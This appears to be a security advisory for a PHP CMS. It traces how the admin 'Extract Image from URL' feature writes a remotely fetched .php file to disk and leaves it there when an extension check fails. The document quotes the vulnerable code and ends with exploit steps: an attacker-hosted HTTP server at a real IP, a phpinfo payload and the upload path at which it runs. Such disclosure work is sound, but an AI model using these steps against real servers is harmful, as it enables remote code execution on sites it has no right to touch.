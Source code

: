 ### Remote File Download Race Condition RCE

In the "Company Profile" section, add an image -> choose "Extract Image from URL" and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```
![](./public/4.png)

The controller path is `app\admin\controller\PicManager.php` which calls the `getImg` function:
```php
elseif ($type == "extract") {
    $groupId = 0;
    $url = $param["extractUrl"];
    $result = $this->getImg($url);
    if ($result["code"] == 0) {
        return $result;
    }
    $result = [
        "total" => 0,
        "currentPage" => 0,
        "pageSize" => 0,
        "imgList" => 0,
        "groupId" => $groupId,
        "groupList" => $groupList,
        "type" => $type,
        "handle" => $handle,
        "startDate" => $startDate,
        "endDate" => $endDate,
        "extractedUrl" => $result["file"],
        "id" => $result["id"]
    ];
```

In `getImg`, the `download` method and the `upload` method are called in sequence:
```php
private function getImg($url = "", $filename = "")
{
    $imageUtil = new ImageUtil();
    $fileName = $imageUtil->download($url, $filename); // Full local file path
    if (empty($fileName)) {
        return ['code' => 0, 'msg' => "Failed to fetch file"];
    }
    $file = new File($fileName);
    $result = $imageUtil->upload($file);
    if ($result['code'] == 1) {
        unlink($fileName);
        return $result;
    } else {
        return ['code' => 0, 'msg' => "Upload failed"];
    }
}
```
In `download`, the `url` is fully controllable and will call the `get_url_content` method to download the file:
```php
public function download($url = "", $filename = "", $path = "")
{
    $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
    if (!empty($path)) {
        $filePath = $path;
    }
    if (!is_dir($filePath)) {
        tp_mkdir($filePath);
    }
    if (empty($filename)) {
        // Upload to local server
        $filename = basename($url);
    }
    $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
    $content = get_url_content($url);
    file_put_contents($filename, $content);
    return $filename;
}
```
In `download`, the filename is obtained from the URL request, and there is no filtering, so a PHP file can be downloaded, and the file is directly written using `file_put_contents`.

As shown in the debugging output, the content of the file is the remote file's content, and the written file is `1.php`.
![](./public/1.png)


However, when attempting to upload, the WAF checks the file extension. Since it is a PHP file, the WAF blocks it, and it returns `code=0`:
![](./public/2.png)


```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record file in the database
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { // Check if method exists
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
}
```

Eventually, `code=0` is returned, and `unlink` is bypassed, so the file is not deleted:
![](./public/3.png)


### Exploit Attack

Start the VPS with a port service:
```r
python3 -m http.server 8999
```
Place the malicious `1.php` file on the VPS:
```php
<?php
phpinfo();
```

Then, in the "Company Profile" section, add an image -> choose "Extract Image from URL", and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```
![](./public/4.png)


Finally, access the path, and the PHP code will be successfully parsed:
```r
/uploads/20250125/1.php
```
![](./public/5.png)
